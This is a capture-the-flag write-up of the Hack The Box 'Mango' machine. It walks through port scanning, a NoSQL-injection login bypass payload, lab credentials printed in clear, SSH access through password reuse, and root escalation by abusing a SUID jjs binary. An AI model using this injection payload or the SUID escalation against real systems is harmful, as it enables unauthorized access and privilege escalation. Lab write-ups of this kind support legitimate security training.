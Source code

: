 # Scan

```bash
ghost@localhost [17:20:53] [~/Documents/hacking/tj-null-boxes/mango] [master *]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.162:22
Open 10.10.10.162:80
Open 10.10.10.162:443

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXYCdNRHET98F1ZTM+H8yrD9KXeRjvIk9e78JkHdzcqCq6zcvYIqEZReb3FSCChJ9mxK6E6vu5xBY7R6Gi0V31dx0koyaieEMd67PU+9UcjaAujbDS3UgYzySN+c5GV/ssmA6wWHu4zz+k+qztqdYFPh0/TgrC/wNPWHOKdpivgoyk3+F/retyGdKUNGjypXrw6v1faHiLOIO+zNHorxB304XmSLEFswiOS8UsjplIbud2KhWPEkY4s4FyjlpfpVdgPljbjijm7kcPNgpTXLXE51oNE3Q5w7ufO5ulo3Pqm0x+4d+SEpCE4g0+Yb020zK+JlKsp2tFJyLqTLan1buN
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqSZ4iBMzBrw2lEFKYlwO2qmw0WPf76ZhnvWGK+LJcHxvNa4OQ/hGuBWCjVlTcMbn1Te7D8jGwPgbcVpuaEld8=
|   256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB1sFdLYacK+1f4J+i+NCAhG+bj8xzzydNhqA1Ndo/xt
80/tcp  open  http     syn-ack Apache httpd 2.4.29
|_http-title: 403 Forbidden
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/localityName=None/emailAddress=admin@mango.htb/organizationalUnitName=None
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN/localityName=None/emailAddress=admin@mango.htb/organizationalUnitName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797d14d485feac35cc62fedbb7a2ce6
| SHA-1: b3299eca2892af1b5895053bf30e861f1c03db95
| -----BEGIN CERTIFICATE-----
| MIIEAjCCAuqgAwIBAgIJAK5QiSmoBvEyMA0GCSqGSIb3DQEBCwUAMIGVMQswCQYD
| VQQGEwJJTjENMAsGA1UECAwETm9uZTENMAsGA1UEBwwETm9uZTEXMBUGA1UECgwO
| TWFuZ28gUHJ2IEx0ZC4xDTALBgNVBAsMBE5vbmUxIDAeBgNVBAMMF3N0YWdpbmct
| b3JkZXIubWFuZ28uaHRiMR4wHAYJKoZIhvcNAQkBFg9hZG1pbkBtYW5nby5odGIw
| HhcNMTkwOTI3MTQyMTE5WhcNMjAwOTI2MTQyMTE5WjCBlTELMAkGA1UEBhMCSU4x
| DTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUxFzAVBgNVBAoMDk1hbmdvIFBy
| diBMdGQuMQ0wCwYDVQQLDAROb25lMSAwHgYDVQQDDBdzdGFnaW5nLW9yZGVyLm1h
| bmdvLmh0YjEeMBwGCSqGSIb3DQEJARYPYWRtaW5AbWFuZ28uaHRiMIIBIjANBgkq
| hkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5fimSfgq3xsdUkZ6dcbqGPDmCAJJBOK2
| f5a25At3Ht5r1SjiIuvovDSmMHjVmlbF6qX7C6f7Um+1Vtv/BinZfpuMEesyDH0V
| G/4X5r6o1GMfrvjvAXQ2cuVEIxHGH17JM6gKKEppnguFwVMhC4/KUIjuaBXX9udA
| 9eaFJeiYEpdfSUVysoxQDdiTJhwyUIPnsFrf021nVOI1/TJkHAgLzxl1vxrMnwrL
| 2fLygDt1IQN8UhGF/2UTk3lVfEse2f2kvv6GbmjxBGfWCNA/Aj810OEGVMiS5SLr
| arIXCGVl953QCD9vi+tHB/c+ICaTtHd0Ziu/gGbdKdCItND1r9kOEQIDAQABo1Mw
| UTAdBgNVHQ4EFgQUha2bBOZXo4EyfovW+pvFLGVWBREwHwYDVR0jBBgwFoAUha2b
| BOZXo4EyfovW+pvFLGVWBREwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsF
| AAOCAQEAmyhYweHz0az0j6UyTYlUAUKY7o/wBHE55UcekmWi0XVdIseUxBGZasL9
| HJki3dQ0mOEW4Ej28StNiDKPvWJhTDLA1ZjUOaW2Jg20uDcIiJ98XbdBvSgjR6FJ
| JqtPYnhx7oOigKsBGYXXYAxoiCFarcyPyB7konNuXUqlf7iz2oLl/FsvJEl+YMgZ
| YtrgOLbEO6/Lot/yX9JBeG1z8moJ0g+8ouCbUYI1Xcxipp0Cp2sK1nrfHEPaSjBB
| Os2YQBdvVXJau7pt9zJmPVMhrLesf+bW5CN0WpC/AE1M1j6AfkX64jKpIMS6KAUP
| /UKaUcFaDwjlaDEvbXPdwpmk4vVWqg==
|_-----END CERTIFICATE-----
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# Mango.htb (443)

Found https://mango.htb/analytics.php at the home page.

The site seems to be broken. Also looking through SSL cert, I found another domain

```
Common Name (CN) staging-order.mango.htb
Organisation (O) Mango Prv Ltd.
Organisational Unit (OU) None

Common Name (CN) staging-order.mango.htb
Organisation (O) Mango Prv Ltd.
Organisational Unit (OU) None
```


# staging-order.mango.htb

It seems to be a login page. With NoSQL injection, I can bypass the login page.

```bash
username[$ne]=admin&password[$ne]=admin&login=login
```

But `/home.php` is empty so I use gobuster to try and find more urls.

So I wrote a script to enumerate users/password and found 2 credentials.
- **admin**:**t9KcS3>!0B#2**
- **mango**:**h3mXK8RhU~f{]f5H**


# User

I tried password reuse with `mango` user, and got SSH access into the server. I tried `admin` for SSH and it failed.

```bash
ghost@localhost [22:19:34] [~/Documents/hacking/tj-null-boxes/mango] [master]
-> % ssh mango@mango.htb

mango@mango:~$ ls /home
admin  mango
```

There's user `admin` but cannot SSH into it. It is either the password is different or password login is disabled for this user for SSH.

So within the user `mango` I tried again and it works. So that means the user `admin` cannot login via password with SSH.

```bash
mango@mango:~$ su admin
Password:
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)

$ bash

admin@mango:/home/admin$ cat user.txt
75893d3317b636904a9df5412cbfedd4
```


# Privilege escalation

So I look for SUID files.

```bash
admin@mango:/home/admin$ find / -perm /4000 2> /dev/null | grep -v "snap/core"
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/run-mailcap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
```

From the list found 2 SUIDs that are interesting (run-mailcap, jjs).

According to GTFO bin, we can use those 2 can be used to execute commands as root.

```bash
admin@mango:/home/admin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/sh /tmp/sh').waitFor()
0
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /tmp/sh').waitFor()
0
jjs> exit()

admin@mango:/home/admin$ /tmp/sh -p
# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

# whoami
root

# ls /root
root.txt

# cat /root/root.txt
4e2f50c21d8e40bc391dc87d6a43c0d4
```
